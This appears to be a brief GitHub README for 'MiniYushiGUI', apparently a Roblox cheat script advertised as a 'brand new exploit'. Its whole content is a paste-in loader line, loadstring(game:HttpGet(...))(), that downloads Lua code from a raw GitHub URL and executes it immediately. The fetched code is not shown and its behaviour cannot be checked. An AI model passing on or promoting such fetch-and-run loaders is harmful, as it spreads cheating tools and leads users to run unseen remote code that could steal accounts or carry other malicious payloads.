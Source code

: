 # MiniYushiGUI

brand new exploit just off the trailer, iykiwm, heres the loadstring :
loadstring(game:HttpGet('https://raw.githubusercontent.com/JoshOfficialTT/MiniYushiGUI/refs/heads/main/myscript.lua.txt', true))()
